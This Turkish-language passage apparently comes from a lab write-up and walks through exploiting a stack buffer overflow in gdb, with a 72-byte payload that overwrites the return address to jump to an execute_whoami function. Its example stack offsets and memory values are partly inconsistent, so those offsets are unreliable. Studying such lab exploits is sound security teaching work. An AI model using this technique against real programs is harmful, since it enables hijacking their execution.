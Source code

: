 ### 3. Zafiyet Tespiti ve Analizi

#### 3.1. Buffer Overflow Zafiyeti - Detaylı Analiz
```bash
# 1. ADIM: vulnerable_function'da breakpoint koy
(gdb) break vulnerable_function
(gdb) run

# 2. ADIM: Stack durumunu incele
(gdb) x/32gx $rsp
# ÇIKTI ÖRNEĞİ:
# 0x7fffffffe000: 0x0000000000000000  0x00007fffffffe100
# 0x7fffffffe010: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe020: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe030: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe040: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe050: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe060: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe070: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe080: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe090: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0a0: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0b0: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0c0: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0d0: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0e0: 0x0000000000000000  0x0000000000000000
# 0x7fffffffe0f0: 0x0000000000000000  0x0000000000000000

# 3. ADIM: Return address'i bul
(gdb) x/gx $rsp+0x48
# ÇIKTI ÖRNEĞİ: 0x7fffffffe048: 0x0000000000401471
# YORUM: Bu değer main fonksiyonundan dönüş adresi. Bu değeri değiştirmemiz gerekiyor.

# 4. ADIM: Buffer'ın başlangıç adresini bul
(gdb) x/gx $rsp+0x8
# ÇIKTI ÖRNEĞİ: 0x7fffffffe008: 0x0000000000000000
# YORUM: Buffer bu adreste başlıyor. 64 byte boyutunda.

# 5. ADIM: Stack layout'ını anla
# +------------------+ <- $rsp + 0x48 (72 bytes) - RETURN ADDRESS
# | 0x0000000000401471| <- Bu değeri execute_whoami ile değiştireceğiz
# +------------------+ <- $rsp + 0x40 (64 bytes) - SAVED RBP
# | 0x0000000000000000| <- Bu değer korunacak
# +------------------+ <- $rsp + 0x8 (0-63 bytes) - BUFFER[64]
# | 0x0000000000000000| <- Buraya 72 byte 'A' yazacağız
# | 0x0000000000000000| <- Buffer devam ediyor...
# | 0x0000000000000000| <- ...64 byte'a kadar
# +------------------+ <- $rsp + 0x0 - FUNCTION ARGS
# | 0x0000000000000000| <- Function arguments

# 6. ADIM: Buffer overflow testi
(gdb) run
# Payload gir: 72 byte 'A' + execute_whoami adresi
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00

# 7. ADIM: Return address'in değişip değişmediğini kontrol et
(gdb) x/gx $rsp+0x48
# ÇIKTI ÖRNEĞİ: 0x7fffffffe048: 0x0000000000401220
# YORUM: ✅ BAŞARILI! Return address execute_whoami (0x401220) ile değişti.
# Eğer hala 0x401471 ise, payload yanlış veya offset hatalı.
```
